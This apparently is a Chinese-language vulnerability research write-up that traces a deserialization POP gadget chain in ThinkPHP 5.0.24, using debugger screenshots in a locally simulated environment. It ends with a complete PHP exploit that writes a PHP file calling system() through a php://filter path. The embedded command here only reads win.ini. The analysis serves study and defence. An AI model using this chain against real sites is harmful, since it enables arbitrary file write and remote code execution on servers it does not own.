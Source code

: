 前置知识
----

#### POP 链

POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。

#### 魔术方法

```php
__construct()   //创建对象时触发
__destruct()    //对象被销毁时触发
__call()        //在对象上下文中调用不可访问的方法时触发
__callStatic()  //在静态上下文中调用不可访问的方法时触发
__toString()    //把类当作字符串使用时触发
__invoke()      //当脚本尝试将对象调用为函数时触发
__wakeup()      //使用unserialize时触发
__sleep()       //使用serialize时触发
__get()         //用于从不可访问的属性读取数据
__set()         //用于将数据写入不可访问的属性
__isset()       //在不可访问的属性上调用isset()或empty()触发
__unset()       //在不可访问的属性上使用unset()时触发
```

环境准备
----

1. ThinkPHP v5.0.24完整版下载地址：<http://www.thinkphp.cn/donate/download/id/1278.html>
2. PHPStorm
3. PHPStudy + Xdebug

POP 链分析
-------

翻阅资料发现该漏洞暂时没有可远程利用的漏洞入口点，所以本次POP链分析仅基于本地环境模拟一个反序列化的入口点

在`application\index\controller`下的index.php构造一个base64解码的反序列化入口，将exp传入。开始debug

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-5371ce7b0de2c243617a6db922732d691978c31e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-5371ce7b0de2c243617a6db922732d691978c31e.png)

在调用windows类的时候， 在对象销毁时就会触发`__destruct()`的`removeFiles()`方法，通过可控的`$this->files`利用`file_exists()`可以调用了Model类的`__toString()`方法

```php
$this->files = [new \think\model\Merge]
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-076bab7177be7e6758374915b48ba923a5866610.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-076bab7177be7e6758374915b48ba923a5866610.png)

因为此时exp中的`$filename`此时的值是`\think\model\Merge`的抽象类Model类名，进而触发Model类的`__tostring()`方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d816136e3816bd6162f9c31b9ce0b55d2e90c57e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d816136e3816bd6162f9c31b9ce0b55d2e90c57e.png)

继续跟进冲冲冲

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6d2dae675371e9eaa0279908dcec7fc2f7e358f2.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6d2dae675371e9eaa0279908dcec7fc2f7e358f2.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7c209a9581fe6225a23ed7e57951274dab15fb56.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7c209a9581fe6225a23ed7e57951274dab15fb56.png)

跟进到`toArray()`方法中， `$this->append`中的值，也就是getError，该方法中`$this->error`可控，设置为 **BelongsTo** 类

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8d34ac58061261bfbedf0cddd123c2602b5d794d.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8d34ac58061261bfbedf0cddd123c2602b5d794d.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-cd1b1581dcba91fd6e6cec6156c47ab20199e186.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-cd1b1581dcba91fd6e6cec6156c47ab20199e186.png)

看到`getRelationData()`，它传入的是Relation类型的对象，再判断对象的类名是否相同则返回我们想要的$value值，但是在返回$value值之前，它将去完成EXP中BelongsTo类的`getRelation()`方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c1989ebd7ff4d797c795a1aa96185bfc175a0345.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c1989ebd7ff4d797c795a1aa96185bfc175a0345.png)

接着就会来到BelongsTo类中的`getRelation()`方法，这里的`$this->query`可控，EXP中找了一个没有`removeWhereField()`方法并且存在`__call()`方法的类来作为`$this->query`，这里挑选了**Output**类

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-e25aa4ec4667d8bbe603b1c8385e06512d706db5.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-e25aa4ec4667d8bbe603b1c8385e06512d706db5.png)

可以看到已经到了Output类的`__call()`方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c7df9162d68d5ef73d827520043b8e28b98b76ee.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c7df9162d68d5ef73d827520043b8e28b98b76ee.png)

这里的`$this->handle`可控 全局搜索可控类中的`set()`方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8636c4e0298a8d0952c5407a379e4e8d8373d237.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8636c4e0298a8d0952c5407a379e4e8d8373d237.png)

这里的`$this->handler`同样可控，所以全局搜索调用`set()`方法的类（记住这个`setTagItem()`方法）

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-275e891a432d169b817e58e47978f223bb8fd058.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-275e891a432d169b817e58e47978f223bb8fd058.png)

这里能够写入文件，但是这里的`$data`无法不可控，所以第一个文件仅传进去以下经过base64且序列化对象的内容

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-cfd30e7da8f3efe5e93283798e61e88c9941abbb.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-cfd30e7da8f3efe5e93283798e61e88c9941abbb.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-007d45e2adc6a04f9de46dedd3d08ab1e73640c8.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-007d45e2adc6a04f9de46dedd3d08ab1e73640c8.png)

上面的函数走完出来之后 又回到**Memcahed**类中的`set()`方法中调用`setTagItem()`，这里又会进行调用`set()`方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8c5613a2d83bc56938f9a57a10850fc03bbd6013.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8c5613a2d83bc56938f9a57a10850fc03bbd6013.png)

重新又来到**File**类的`set()`方法，在这里将要写入`prefix`的值，该值便是exp中base64编码后的payload

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d667159252c2441ff367936cc6e25d43c2148c8f.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d667159252c2441ff367936cc6e25d43c2148c8f.png)

到此为止，我们的payload已经被成功写入

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-4941140a4b52a4013988d1de8122ed62076c58c1.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-4941140a4b52a4013988d1de8122ed62076c58c1.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ec3bdbd2da8601a428ffa5e9ef0328e059197962.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ec3bdbd2da8601a428ffa5e9ef0328e059197962.png)

EXP如下：

```php
<?php
namespace think\process\pipes;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = [new \think\model\Merge];
    }
}
namespace think\model;
use think\Model;
class Merge extends Model
{
    protected $append = [];
    protected $error;
    public function __construct()
    {
        $this->append = [
            'bb' => 'getError'
        ];
        $this->error = (new \think\model\relation\BelongsTo);
    }
}
namespace think;
class Model{}
namespace think\console;
class Output
{
    protected $styles = [];
    private $handle = null;
    public function __construct()
    {
        $this->styles = ['removeWhereField'];
        $this->handle = (new \think\session\driver\Memcache);
    }
}
namespace think\model\relation;
class BelongsTo
{
    protected $query;
    public function __construct()
    {
        $this->query = (new \think\console\Output);
    }
}
namespace think\session\driver;
class Memcache
{
    protected $handler = null;
    public function __construct()
    {
        $this->handler = (new \think\cache\driver\Memcached);
    }
}
namespace think\cache\driver;
class File
{
    protected $tag;
    protected $options = [];
    public function __construct()
    {
        $this->tag = false;
        $this->options = [
            'expire'        => 3600,
            'cache_subdir'  => false,
            'prefix'        => '',
            'data_compress' => false,
            'path'          => 'php://filter/convert.base64-decode/resource=./',
        ];
    }
}
class Memcached
{
    protected $tag;
    protected $options = [];
    protected $handler = null;
    public function __construct()
    {
        $this->tag = true;
        $this->options = [
            'expire'   => 0,
            'prefix'   => 'PD9waHAKc3lzdGVtKCd0eXBlIEM6XFx3aW5kb3dzXFx3aW4uaW5pJyk7Cj8+',  //经多次尝试，这里的payload在base64编码后不能有=
        ];
        $this->handler = (new File);
    }
}
echo base64_encode(serialize(new \think\process\pipes\Windows));
```